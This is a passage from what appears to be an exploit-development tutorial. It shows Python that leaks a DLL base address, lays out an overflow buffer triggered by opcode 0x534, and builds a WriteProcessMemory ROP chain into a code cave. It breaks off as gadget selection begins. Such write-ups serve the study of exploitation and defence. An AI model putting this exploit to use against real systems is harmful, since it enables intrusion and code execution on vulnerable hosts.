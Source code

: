```python
libeay32IBM019Func = leakFuncAddr(b"N98E_CRYPTO_get_new_lockid", server)
dllBase = libeay32IBM019Func - 0x14E0  # base address calculation
print(str(hex(dllBase)))

# get address of WriteProcessMemory
WPMAddr = leakFuncAddr(b"WriteProcessMemory", server)
print(str(hex(WPMAddr)))

#psAgentCommand
buf = bytearray([0x41]*0xC)
buf += pack("<i", 0x534)    # opcode
buf += pack("<i", 0x0)      # 1st memcpy: offset
buf += pack("<i", 0x700)    # 1st memcpy: size field
buf += pack("<i", 0x0)      # 2nd memcpy: offset
buf += pack("<i", 0x100)    # 2nd memcpy: size field
buf += pack("<i", 0x0)      # 3rd memcpy: offset
buf += pack("<i", 0x100)    # 3rd memcpy: size field
buf += bytearray([0x41]*0x8)

#psCommandBuffer aka WPM ROP chain construction
wpm = pack("<L", WPMAddr)                    # API address
wpm += pack("<L", (dllBase + 0x92c04))       # return addr (code cave)
wpm += pack("<L", 0xFFFFFFFF)                # process handle (-1)
wpm += pack("<L", (dllBase + 0x92c04))       # destination addr
wpm += pack("<L", 0x41414141)                # stack addr placeholder
wpm += pack("<L", 0x42424242)                # size placeholder
wpm += pack("<L", (dllBase + 0xe401c))       # bytes written ptr

offset = b"A" * (276 - len(wpm))
```

the base address is leaked through `N98E_CRYPTO_get_new_lockid` and all offsets are calculated from it. there's no need for complex ROP to resolve addresses.

the memory organization is like this:

```shell
exploit memory organization:
[buffer overflow padding]
[scanf trigger (0x534)]
[memcpy parameters]
[WPM ROP chain]
[additional padding (276 - len(wpm))]
```

### building the ROP chain

#### stack setup

we start with identifying a gadget that can help us obtain a clean copy of the `ESP` (stack pointer) register without clobbering other registers. it needs to be single-purpose, with a predictable execution, and mustn't have any side effects or complex instructions. it should also not rely on stack values beyond the return address.
